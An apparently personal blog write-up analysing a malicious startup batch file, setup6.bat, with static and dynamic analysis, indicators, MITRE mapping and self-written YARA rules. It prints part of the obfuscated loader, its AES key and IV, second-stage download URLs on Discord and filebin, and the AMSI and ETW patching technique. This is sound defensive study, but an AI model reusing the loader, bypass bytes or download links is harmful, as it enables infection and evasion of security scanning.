A while ago, while studying with my friend on his laptop, he told me that he kept seeing a black window briefly appear and disappear when the laptop started up. He didn’t experience any issues with the laptop being slow because of it and he wasn’t concerned about it, so I opened up the startup folder in Windows and checked it. As expected, a batch file named `setup6.bat` was there. I told him to send it to me so I could have some fun with it :) and maybe find out what it could have done to his machine.

---
## Static analysis
I started out with opening the file in notepad to check the code which was obfuscated, and it looked like this:
```batch
@echo off
set "EIHu=set "
%EIHu%"YtCs=="
%EIHu%"uHrPBBkiIh%YtCs%dows"
%EIHu%"TfuPdCyCPI%YtCs% C:\"
%EIHu%"hVqvrduOEf%YtCs%Syst"
%EIHu%"WZdrSwfPvK%YtCs%ll.e"
%EIHu%"HoJWcESEqU%YtCs%1.0\"
%EIHu%"xBEaleVsIZ%YtCs%Wind"
%EIHu%"oGqHLoeOst%YtCs%ll\v"
%EIHu%"tasqRFYOts%YtCs%copy"
%EIHu%"VwDTVRwseM%YtCs%em32"
%EIHu%"KGgtVCPNxX%YtCs%\Win"
%EIHu%"IkGFbVEsug%YtCs%xe /"
%EIHu%"tlosGtFQdZ%YtCs%y "%~0."
%EIHu%"NoITTcPgRP%YtCs%rshe"
%EIHu%"OtcXmFVTAa%YtCs%powe"
%EIHu%"OMMAYPpLfQ%YtCs%exe""
%EIHu%"wrqGrghQla%YtCs%ows\"
%EIHu%"JgNCdaNwKz%YtCs%Powe"
%EIHu%"KPMypAOWAP%YtCs%rShe"
%tasqRFYOts%%TfuPdCyCPI%%xBEaleVsIZ%%wrqGrghQla%%hVqvrduOEf%%VwDTVRwseM%%KGgtVCPNxX%%uHrPBBkiIh%%JgNCdaNwKz%%KPMypAOWAP%%oGqHLoeOst%%HoJWcESEqU%%OtcXmFVTAa%%NoITTcPgRP%%WZdrSwfPvK%%IkGFbVEsug%%tlosGtFQdZ%%OMMAYPpLfQ%
%EIHu%"tasqRFYOts%YtCs%cls"
%tasqRFYOts%
%EIHu%"tasqRFYOts%YtCs%cd "%~dp0""
%tasqRFYOts%
...
```
Right away, you can see this `EIHu` variable is a `set` command, and it’s setting other variables like an equal sign, a `copy` command, a chopped-up `powershell` command, and more, probably trying to avoid detection. Now, we could find and replace each variable manually, or simply modify it so that when it looks like it's going to run a command, we print the output instead.

To do this safely, I opened my **FlareVM** machine, isolated it from the network, and took a snapshot as a fallback. Then I added `echo` before each variable that is not `EIHu` (since the format is the same throughout the entire file), and I got this:


The first command copies the PowerShell executable and names it `setup6.bat.exe` which is the name of the batch file (using `%~0` in the batch script) + `.exe` at the end then clearing the terminal, and it is probably for trying to avoid detection. That explains the first few lines, and for the rest we can see the standard (but using the copy of PowerShell, `setup6.bat.exe` that they created)
```batch
setup6.bat.exe -noprofile -w hidden -ep bypass -c
```
which means execute the PowerShell code after the `-c` flag while having the window `hidden` and ignoring the profile or config of the PowerShell prompt. So I saved the output to `setup7.ps1` to understand this PowerShell code, and after some formatting I got this:


It’s clear the script tries to hide their use of some PowerShell objects and methods like `Cryptography.AesManaged`, `Load`, `FromBase64String` and `ReadAllText` by reversing the strings and reconstructing them dynamically using indexes and `-join ''`. After cleaning those up, here is the summary of the functions:
1. `xAVKa` is an AES decryption function that takes data and decrypts it using these base64 encoded credentials
	- Key: `BQfGiisdcBibRhGU6t2A8W3Yo1ttQXUYnq3w3r81O38=` 
	- IV: `0damDE+xtw/OyN2cNhZ55A==`
2. `ZNXbQ` is for decompressing data using Gzip and return it as an array
3. `YEevR` is for executing assembly code.

One part of the batch file I didn't mention is a big comment (denoted by  `:: `) in the middle of the file that appears to have no use, but here we can see the script reads the batch file and looks for the comment and then splits it in two parts using a backslash `\` (since base64 can't contain a backslash) and these parts are then base64 decoded, decrypted using AES, decompressed using gzip and finally executed with some arguments, all of this using the functions that we mentioned.

Now we can save those bytes into files and check them out by adding an extra command to save the variable into a `.exe` file without executing them
```powershell {hl_lines=[2,4]}
$yWIOK = ZNXbQ (xAVKa (FromBase64String($JLtKZ[0])));
Set-Content -Path ./setup7-1.exe -Value $yWIOK -Encoding Byte;
$VXkwk = ZNXbQ (xAVKa (FromBase64String($JLtKZ[1])));
Set-Content -Path ./setup7-2.exe -Value $VXkwk -Encoding Byte;
```
After checking their properties I found that the first one is called `Vpepqi.tmp` and the second is called `jyqhYk.tmp`, and both of them are .NET assembly, so we can use `dnSpy` to analyze their code.

---
### First Binary
Starting off with `Vpepqi.tmp`, which contains a module called `JLAIVE` and a class named `kIApdjqZqKrJdMLLvoSg` with three functions:
1. `GetEmbeddedResource`: extracts a resource from the binary.
2. `Uncompress`: decompression using gzip.
3. `Exit`: A persistence mechanism, which looks for a batch file (probably `setup6.bat`) and places it in the Startup folder to run automatically on system start.
	

And this is the main function:


First I can see that it tries to hide itself using file attributes, then it looks for resource names that are not `JLAIVE_P`, `JLAIVE_RP`, and `JLAIVE_AU`. Except for `JLAIVE_P`, these are not in the binary, so the code does not enter the if-condition block. Instead, it proceeds directly to extracting the embedded resource and decompressing it. We can see this embedded resource inside `dnSpy` Resources section:



As expected, we got a `gzip` file:



#### Another one
Let's extract it and open it in `dnSpy`, and interestingly its name is `WindowsFormsApp23`:



First they use TLS (Transport Layer Security) and `WebClient` to request two files:
1. `array`: https://cdn.discordapp.com/attachments/1085282048488521791/1085282132009689118/SikisOtomasyonu.png
2. `array2`: https://filebin.net/0rylwlthrb9j396u/2.1.0.exe

both of them are down and not available in `Wayback Machine` website, and the first link is from a Discord channel. It is a "png" file, but later on, it is used with the `Assembly.Load` function, so I’m guessing it is just to hide the fact that it’s an executable. The other one is an executable.
After they download the "png" and the exe, they place the exe as an array with the `RegAsm.exe` path in an object and send it as an argument to `hahayarrakkafa` method in `SikisOtomasyonu.yarramiye` class (and all of these words are bad words in Turkish).
What I guess is happening here is that they execute their malware which is the downloaded file `2.1.0.exe` using `RegAsm.exe`, and the logic behind this is in `SikisOtomasyonu.png`, and `RegAsm.exe` is a trusted Windows utility and has been known to be abused by malware to execute code through it using `[ComRegisterFunction]` and `[ComUnregisterFunction]`, to evade detection, [as documented by MITRE ATT&CK](https://attack.mitre.org/techniques/T1218/009/).

---
### Second binary
We missed a file and that is the one I called `setup7-2.exe`, but it's actual name is `jyqhYk.tmp`. It has one function called `evfoaeDobyzJHFXXZBmt` and it is like the PowerShell one, it does AES decryption given a key and an IV (the same key and IV as in the PowerShell script), and the main function is where the interesting part is:

It looks complicated, but it’s not. They load the address of the `VirtualProtect` function and use it via a `Delegate` instead of calling it directly. They also encrypt some bytes and function names like `AmsiScanBuffer` and `EtwEventWrite`, all to try to avoid detection.
So I simplified it, and split it into two parts:

#### 1.  AMSI Bypass `AmsiScanBuffer`
`AmsiScanBuffer` is a function used by Windows Defender (through AMSI or Anti Malware Scan Interface) to scan scripts and other content for malicious behavior at runtime


This part of the code gets the memory address of the `AmsiScanBuffer` function, detects whether the current process is running on a 64-bit (8 bytes) or 32-bit (4 bytes) architecture, and then initializes the `array` with the corresponding machine code instructions represented as little endian byte sequences, removes memory protection by using `VirtualProtect` to give permission to read, write, and execute, copies the machine code, then returns the permissions to their original state.

Here’s what these instructions do:
1. 64-bit 



2. 32-bit



As we can see they are both the same, only difference is the calling conventions between the two architecture, and their main goal is to `mov 0x80070057` into `eax` and `ret`urn immediately, and this value that it moves is the equivalent to [`AMSI_RESULT_CLEAN` which indicates that no detection has been found](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/).

#### 2.  Disable ETW Logging `EtwEventWrite` 



Here we have the same code as before, the only difference is the target function and the bytes, which is `EtwEventWrite` a function used by Windows to log events through the ETW (Event Tracing for Windows) system, and for the bytes or the instructions it is only `c3` or `ret` in 64-bit, only return nothing, which will make it not function.

---
## Dynamic Analysis
Now that we’ve broken the malware apart statically, it’s time to see how it behaves when it runs. For this, I used a **FlareVM** machine with `ProcMon` and `ProcExp` running to catch any **host-based indicators**, and running `FakeNet-NG` for **network-based indicators**.

### Host-based indicators
Running the batch file I keep getting this error:


Which after digging deeper, I found out that for some reason the `WindowsFormsApp23` the one that sends the requests to discord and filebin, is returning an error after executing, making the program crash and not continue the execution of the `JLAIVE` executable, which in return doesn't run the `Exit` method that puts the `setup6.bat` file in the Start-up folder.

Other than this error, the other things ran as expected, here is what it does when it ran:


We can see it ran `cmd.exe` for copying PowerShell to the Desktop, and then it uses it as `setup6.bat.exe` to start the execution of the malware, which then runs two more executables directly in the memory without saving it to disk, so it is hard to detect their actions in `promon`, but we know that the first one `JLAIVE` extract a new executable called `WindowsFormsApp23` that does network stuff (we will see it in the network-based indicators) and nothing related to host-based indicators.

Going to `jyqhYk.tmp`, it should do AMSI bypassing and disable ETW logging, but it doesn't do any of them in my tests


Here we can see that AMSI is not disabled.



And here events are logged in the Event Viewer.

In conclusion, the malware errors out just before saving the `setup6.bat` file in the startup folder, so there is no host-based indicators.
### Network-based indicators
For the network indicators, I used `FakeNet-NG` and when running the malware we get two web requests as we expected from our static analysis:


and since both are down, nothing happened after.

### Execution Chain


---
## YARA Rules
<abbr title="Yet Another Ridiculous Acronym">YARA</abbr> is a tool for detecting and identifying malware using a set of rules, so let's make our own rules to identify the malware we found, while I don't think these rules will be used, it is good for practice for me, so here is my YARA rules:

### 1. Setting `set`
```c
rule setting_set
{
    meta:
        description = "This will detect files where `set` is set to a variable"
    strings:
	    $set = /set\s+\S+\s*=[\s"]*set\b/
    condition:
        any of them
}
```
First rule is for declaring a variable with the word `set` which I don't think has a legitimate use other than obfuscation, so here I detect these two cases:
```batch
set var="set"
set "var=set"
```

### 2. Long Comments
And for my next way to detect suspicious batch files, is long comments, since there is no useful comments that go longer than 200 characters and usually it might be embedding  malicious payloads. Comments in batch files can either start with double colons `::` (like in out sample) or `REM` and in other languages they can start with hashtags `#` or double forward slashes `//`, so I put them all to generalize.
```c
rule long_comments
{
    meta:
	    author = "Adnan Najjar"
        description = "This will detect long comments"
    strings:
	    $comment = /[:\/#]{1,2}\s*[a-zA-Z0-9+-\/=\\]{200,}/
	    $rem_comment = /REM\s*[a-zA-Z0-9+-\/=\\]{200,}/
    condition:
        any of them
}
```

Testing the rules on `setup6.bat`:


### 3. Discord Attachments
Moving on to in-memory detection for when the program is running, and the only one that I think I could kind of generalize is the use of discord attachments, since no legitimate program will download something from discord, and to do that, I used the [`base64` modifier](https://yara.readthedocs.io/en/stable/writingrules.html#base64-strings), which will automatically try permutations and I don't have to define each permutation myself, and I used the [`wide` version](https://yara.readthedocs.io/en/stable/writingrules.html#wide-character-strings) of it, since Windows stores strings in UTF-16LE that leaves the string having null bytes in the middle, here is an example on our sample:


Here is the resulting rule:
```c
rule discord_attachments
{
    meta:
	    author = "Adnan Najjar"
        description = "This will detect the use of Discord to download files"
    strings:
        $discord_cdn = "cdn.discordapp.com/attachments" base64wide
    condition:
        all of them
}
```

### 4. Filebin.net
Similarly, `filebin.net` was also used in our sample and its used for sharing files temporary and there is no use for it in legitimate software.
```c
rule filebin_net
{
    meta:
	    author = "Adnan Najjar"
        description = "This will detect the use of filebin to download files"
    strings:
        $filebin_net = "filebin.net" base64wide
    condition:
        all of them
}
```

Testing the rules on `WindowsFormsApp23`:

## Malware Analysis Summary

| **Section**                  | **Details**                                                                                                                                                                                                                                                                                                                                         |
| ---------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Sample Name**              | `setup6.bat`                                                                                                                                                                                                                                                                                                                                        |
| **File Hashes (SHA256)**     | - setup6.bat `e5c03e12d1b4b34b3eb51c0d8d1e2363d52a513fc059fde5c3e2f1098303fdc0`<br>- Vpepqi.tmp `0b0cb5333294a770dabac5d0add45e847bff6f981bfd65bc593f0c3366c4c450`<br>- jyqhYk.tmp `7a61b4240dd8b22ba860ebb18dfe413fa3ace2f6742ba8cf76b61290a9c4a883`<br>- WindowsFormsApp23.exe `abb3e568c5708db78f2b75530cf8dcc1e9f3e44b7b6861a353368db7c0de7ff2` |
| **File Size**                | ~30 KB (batch file)                                                                                                                                                                                                                                                                                                                                 |
| **File Paths**               | `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\setup6.bat`                                                                                                                                                                                                                                                                                |
| **Persistence Mechanism**    | Startup folder (`.bat` file placed in startup path)                                                                                                                                                                                                                                                                                                 |
| **Payloads Loaded**          | - Embedded resource in `Vpepqi.tmp`: `WindowsFormsApp23`<br>- Downloads: `SikisOtomasyonu.png` and `2.1.0.exe` (now offline)                                                                                                                                                                                                                        |
| **Obfuscation Techniques**   | - Obfuscated batch commands<br>- String reversal in PowerShell<br>- AES encryption & GZIP compression<br>- In-memory assembly execution                                                                                                                                                                                                             |
| **Malicious Behavior**       | - AMSI bypass via patching `AmsiScanBuffer`<br>- ETW logging disabled via patching `EtwEventWrite`<br>- Hidding files                                                                                                                                                                                                                               |
| **Anti-Analysis Techniques** | - Dynamic string generation<br>- Use of trusted binaries (`RegAsm.exe`)                                                                                                                                                                                                                                                                             |
| **Network Activity**         | - Attempted to download from:<br>`cdn.discordapp.com` and `filebin.net`                                                                                                                                                                                                                                                                             |
| **MITRE ATT&CK Techniques**  | - `T1547.001`: Persistence using Start-up folder<br>- `T1059.001`: PowerShell<br>- `T1027`: Obfuscation<br>- `T1218.009`: RegAsm Execution<br>- `T1562.001`: Disable or Modify Tools (AMSI/ETW)                                                                                                                                                     |
| **Remediation**              | - Remove `setup6.bat` from Startup folder<br>- Check for hidden `setup6.bat.exe` in user directories<br>- Run AV scan                                                                                                                                                                                                                               |

## Summary
A lot of functions the malware could have done, but it looks like it is incomplete or it could have been complete with these files they download, and we could have discovered what it actually does. Although it is sad for me that I didn't get the full picture, it is good for my friend and others, that the malware is not working and already blocked.

Overall, it was fun playing around with this malware, and discovering how it works and what it does, I learned a lot about how malware hides and unpacks itself, downloads more files using windows trusted commands and how it tries to hide its actions by bypassing scans and disabling logging. Moreover, I learned how to make my own YARA rules using the static and dynamic analysis that I did.
### VirusTotal Links
- [setup6.bat](https://www.virustotal.com/gui/file/c421fe4f8b7e2ce4a08ae692df4dfa1c4206d0780faf372c5095d76edf9af288)
- [Vpepqi.tmp](https://www.virustotal.com/gui/file/0b0cb5333294a770dabac5d0add45e847bff6f981bfd65bc593f0c3366c4c450)
- [jyqhYk.tmp](https://www.virustotal.com/gui/file/7a61b4240dd8b22ba860ebb18dfe413fa3ace2f6742ba8cf76b61290a9c4a883)
